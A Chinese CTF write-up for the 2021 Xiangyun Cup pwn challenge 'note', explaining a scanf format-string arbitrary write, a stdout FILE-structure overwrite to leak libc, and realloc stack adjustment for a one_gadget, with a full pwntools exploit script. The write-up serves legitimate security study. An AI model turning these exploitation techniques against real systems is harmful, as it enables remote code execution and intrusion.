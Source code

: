 ## i春秋 2021祥云杯 pwn-note WP

`学习自Cooook（zyf giegie）`

程序简单好理解；给了libc版本；**问题在于如何libc泄露**

这道题主要在于通过scanf任意写，打io_file(修改stdout结构体的指针)，然后抬栈满足onegadget条件



b __isoc99_scanf 下断点后   %7$s是我们之前输入进去的格式化字符串，用于scanf任意地址写；可以看到  0x7f09403e8620 指向的内容是file结构体中的flag：0xfbad2887

![](C:\Users\李小丫\AppData\Roaming\Typora\typora-user-images\image-20210823152027644.png)

x进去看看，是stdout结构体

![image-20210823152421970](C:\Users\李小丫\AppData\Roaming\Typora\typora-user-images\image-20210823152421970.png)

ptype stdout 来查看结构体类型

![image-20210823152502931](C:\Users\李小丫\AppData\Roaming\Typora\typora-user-images\image-20210823152502931.png)

通过打此结构体来泄露libc地址；

由于scanf函数的第7个参数就是指向stdout_flag的指针，所以在我们向scanf输入内容时候就能修改到 stdout结构体内容，那么修改_IO_write_base,_IO_write_ptr,_flags 就可以了；`_IO_write_base`指向想要泄露的地方；`_IO_write_ptr`指向泄露结束的地址。（之后遇到puts或printf就会把 _IO_write_base 指向的内容打印出来）

最方便的就是直接覆盖_IO_write_base最低位为00即可，'\n'就行了。

还有就是，我们还需要将stdout结构体中的 read_ptr,read_end,read_base 三个指针置0；_flag 置为 0xfbad18** (为了设置`_IO_CURRENTLY_PUTTING=0x800`) 原因就是：（简述）

**put函数的执行流程 **：

- 实际最终调用的是 `_IO_2_1_stdout_`的`vtable`中的`__xsputn`，也就是`_IO_new_file_xsputn`函数。

最终会调用到`_IO_OVERFLOW`，也就是`_IO_new_file_overflow`。

```c
int
_IO_new_file_overflow (_IO_FILE *f, int ch)
{
  if (f->_flags & _IO_NO_WRITES) /* SET ERROR */
    {
      f->_flags |= _IO_ERR_SEEN;
      __set_errno (EBADF);
      return EOF;
    }
```

要绕过这里的 if 判断；通常没有输出的话是0；

然后就是要面临 one_gadget 不起作用的情况，就是没有满足其参数的条件，那么可以调整栈来达到目的（[rsp+0x30 == NULL]）

即通过realloc来抬栈；因为realloc的汇编代码比malloc  进入hook函数前会多几个push指令,以及sub指令的参数不同；将malloc_hook 改为realloc（及其偏移）；将realloc_hook改为one_gadget;堆栈自行调整；

`_GI__libc_malloc`



![image-20210823235135201](C:\Users\李小丫\AppData\Roaming\Typora\typora-user-images\image-20210823235135201.png)

`libc_realloc`

![image-20210823235335815](C:\Users\李小丫\AppData\Roaming\Typora\typora-user-images\image-20210823235335815.png)

### zyf giegie's exp

```python
from pwn import *
sh = process('./note')
context.log_level = 'debug'
#gdb.attach(sh)
gdb.attach(sh, "b * $rebase(0x1235)")
#sh = remote('47.104.70.90', 25315)

def Write(Until, Text, opt = 0):
    sh.sendlineafter(Until, Text)

def Choice(opt):
    Write('choice: ', str(opt))

def add(size,content):
    Choice(1)
    sh.recvuntil('size: ')
    sh.sendline(str(size))
    sh.recvuntil('content: ')
    sh.send(content)

def say(content,content2):
    Choice(2)
    sh.recvuntil('say ? ')
    sh.send(content)
    sh.recvuntil('? ')
    sh.send(content2)

# Choice(2)
# payload1 = '%7$s'
# payload2 = p64(0xfbad1800)+p64(0)*3 + '\x00' + 'a'
# Write('say ? ', payload1)
# Write('? ', payload2) 
libc = ELF('./libc-2.23.so')
add(0x20, 'a\n')
say('%7$s', p64(0xfbad1800)+p64(0)*3  + '\n')
sh.recv(0x18)
leak = u64(sh.recv(8))
log.success('leak' + hex(leak))
libcbase = leak - 0x3c36e0
#libcbase = u64(sh.recv(8)) - 0x3c36e0
log.success('libcbase: ' + hex(libcbase))

malloc_hook = libc.symbols['__malloc_hook'] + libcbase
realloc = libc.symbols['realloc'] + libcbase


one = [0x45226, 0x4527a, 0xf03a4, 0xf1247]
one_gadget = one[1] + libcbase
# gdb.attach(sh, 'b * ' + str(one_gadget))
say('%7$saaaa' + p64(malloc_hook - 8) + '\x00' * 0x50, p64(one_gadget)+ p64(realloc+6) + '\n')
# say('%8$lld' + p64(malloc_hook - 8), p64(one_gadget) + p64(realloc) + '\n')
# add(0x20, 'a\n')
Choice(1)
sh.recvuntil('size: ')
sh.sendline('1')


sh.interactive()
```

令人疑惑的是打这个脚本 为什么execve第二个参数rsp+0x30 和其要求的条件[rsp + 0x30] == NULL（这里是0x1） 不满足但却仍然成功getshell

![img](file:///C:\Users\李小丫\Documents\Tencent Files\2652148955\Image\C2C\53TB$Z9DHD3V9]95N{{NX2T.jpg)

而当我设置为0x0后也仍然可以成功；（realloc+8）即相比realloc+6少一个push（esp+8）

所以这里exp 的realloc的偏移；可以为  realloc +6 也可以为 realloc + 8；